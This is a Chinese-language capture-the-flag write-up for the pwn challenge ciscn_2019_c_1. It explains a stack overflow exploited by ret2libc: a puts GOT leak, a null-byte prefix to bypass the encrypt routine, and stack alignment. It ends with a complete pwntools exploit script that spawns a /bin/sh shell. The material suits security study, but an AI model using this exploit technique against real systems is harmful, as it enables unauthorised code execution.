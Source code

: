 # ciscn_2019_c_1

## 题目分析

- 首先是`checksec`检查程序，效果如下图

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-10-02_15-18-43.png)

可知该程序 具有`NX`保护，因为无法使用`ret2shllcode`；因为使用`ret2shellcode`需要将部分数据写入内存，并解析为代码来执行；很明显`NX`保证了**内存可写区域不可执行**；从而阻止了这一点

- 使用IDA反汇编，可以发现没有我们常用的`system`函数，然后分析程序；发现`encrypt`函数如下图所示

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-10-02_15-23-19.png)

- 该程序具有输入，但无输入长度限制，所以存在**栈溢出**
- 由于没有`system`函数，故常用的`ret2system`方法无法构建只能使用`ret2libc`方法

## exp构建要点

前面的内容已经明确所要使用的思想是`ret2libc`,该程序为64位

### 获取system函数地址

由于我们的程序中不存在`system`函数地址，也没有需要使用的`/bin/sh`字符串，但是我们可以知道，在程序调用的库函数`libc`中一定存在该函数与字符串，并且函数之间的相对偏移是固定的；尽管有的程序开启了`ALSR`保护。`libc`等库函数是随机动态的加载到程序中也只是针对于地址中间位进行随机，最低的 12 位并不会发生改变；因此 我们可以获取程序中需要调用的`puts`函数，来**泄露`libc`的基地址**，从而得到我们想要的数据；

而`libc`的泄露涉及到 **延迟绑定机制**；具体内容参考 **plt和got表**文档



### paylaod以\x00开头

才需要注意：**在该题中，`encrypt`函数对与输入的字符串做了处理，可能会改变输入的payload数据，为了防止这一点，利用`strlen`以`\x00`截断为特点，在`payload`开头将第一个填充字母替换为`\x00`避免了后续的处理过程**



### libc基地址

要注意 `libc`的基地址一定是 `0x7f`开头 共六字节；例如`0x7fe75fe479d0`；如果出现了 `a`开头，需要注意地址截断方式；`0xa`是`\n`，换行符；`puts`函数在输出字符串后，会输出一个`\n`;



### 参数传递

在我们构建调用`system`的函数过程中，需要给`system`传递参数 `/bin/sh`,所以我们需要注意传递参数的方式

**在64bit程序中，六个参数是通过rdi,rsi,rdx,rcx,r8 和 r9进行传递的，其余的通过栈传递；所以要使用 gadget 片段，来将目标值填充到对应寄存器**

**在32bit程序中，使用的是栈传递参数**



### 栈对齐

特别注意到题目是部署在Ubuntu18上的，因此调用`system`需要栈对齐，这里填充ret来对齐；详细说明见如下链接

主要原因是[[原创\]CTF 100步getshell之就差一步——The MOVAPS issue-Pwn-看雪论坛-安全社区|安全招聘|bbs.pediy.com](https://bbs.pediy.com/thread-269597.htm)

https://www.cnblogs.com/Rookle/p/12871878.html

简单总结：就是在64位的机器上，当你要调用printf或是system时，请保证`rsp&0xf==0`，说人话就是16字节对齐，最后4比特为0。当不满足上述条件的时候就报错。

## EXP

```python
#! /usr/bin/env python3
from pwn import *
from LibcSearcher import *

# ret2lic

io = process("/home/always/PWN/ciscn_2019_c_1")
# ELF模块用于获取ELF文件的信息
e = ELF("/home/always/PWN/ciscn_2019_c_1")
#显示调试信息，方便调试
context(os='linux', arch='amd64', log_level='debug')

offset = 87     #rbp -0x50  0x50 = 80 ; 80+8 =88byte

puts_plt_addr = e.plt["puts"]         #get pust() plt addr
puts_got_addr = e.got["puts"]          #get puts() got addr
main_addr = e.symbols["main"]


#change to input the plaintxt,it's the first time to input payload
io.sendlineafter("Input your choice!","1")

#ROPgadget --binary ciscn_2019_c_1 |grep "pop rdi" ; to get the "pop rai; ret" addr  0x0000000000400c83
pop_rdi_ret_addr = 0x0400c83
#pause()
#use the puts function to output the puts@got addr and ret to the main to inpupt the payload2
payload1 = b"\x00" + offset*b"A" + p64(pop_rdi_ret_addr) + p64(puts_got_addr) + p64(puts_plt_addr) + p64(main_addr)
io.sendlineafter("Input your Plaintext to be encrypted",payload1)
#----------------payload1 finish --------------------------------------------
io.recvuntil("Ciphertext\n")

io.recvline()
#puts_leak= u64(io.recvline()[0:8].ljust(8,b'\x00'))
puts_leak= u64(io.recvuntil("\n",drop=True).ljust(8,b'\x00'))
libc = LibcSearcher("puts",puts_leak)
log.success('puts_leak_addr => {}'.format(hex(puts_leak)))
libc_base = puts_leak - libc.dump("puts")
sys_addr  = libc_base + libc.dump("system")
binsh_addr = libc_base + libc.dump("str_bin_sh")
ret = 0x04006b9         #使system位置 栈对齐 ubuntu18 以上要求 按16字节对齐
payload2 = b"\x00" + offset*b"A" +p64(ret) + p64(pop_rdi_ret_addr) + p64(binsh_addr) + p64(sys_addr) +8*b'A'
#----------------payload2 finish --------------------------------------------
io.sendlineafter("Input your choice!","1")
io.sendlineafter("Input your Plaintext to be encrypted",payload2)

io.interactive()
```

